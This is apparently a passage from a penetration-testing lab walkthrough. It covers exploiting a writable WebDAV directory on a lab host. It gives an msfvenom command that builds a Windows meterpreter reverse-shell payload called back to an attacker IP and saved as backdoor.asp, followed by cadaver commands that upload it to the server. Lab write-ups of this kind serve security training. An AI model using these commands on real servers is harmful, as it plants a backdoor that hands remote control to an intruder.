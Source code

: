 As per the results given in davtest, for this purpose, let’s use the “.asp” extension. Now, we need to create a malicious file that allows us to obtain a reverse shell since we can access the “WebDav” directory. Use the following command to create a malicious file using **msfvenom**.

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.40.3 LPORT=4444 -f asp > backdoor.asp

- \-p: `payload`
- LHOST: `localhost (ip address of the attack machine)`
- LPORT: `localport (a port on the attack machine)`
- \-f: `file type`

When you run the above command, a file called “backdoor.asp” will be generated with the given parameters. You can check the file by listing the contents of the current directory, whether it is created or not.

![0f2ef8b124e2426877bb5f076dc7db60.png](resources/0f2ef8b124e2426877bb5f076dc7db60.png)

After that, we can upload the generated file using **Cadaver** to the “WebDAV” directory.

cadaver http://target1.ine.local/webdav/

After that, you have to provide the username and the password to access.

put backdoor.asp

We can upload our malicious file using the above command.

![2148e0bc442704d7ba0ff5f4e63151a3.png](resources/2148e0bc442704d7ba0ff5f4e63151a3.png)
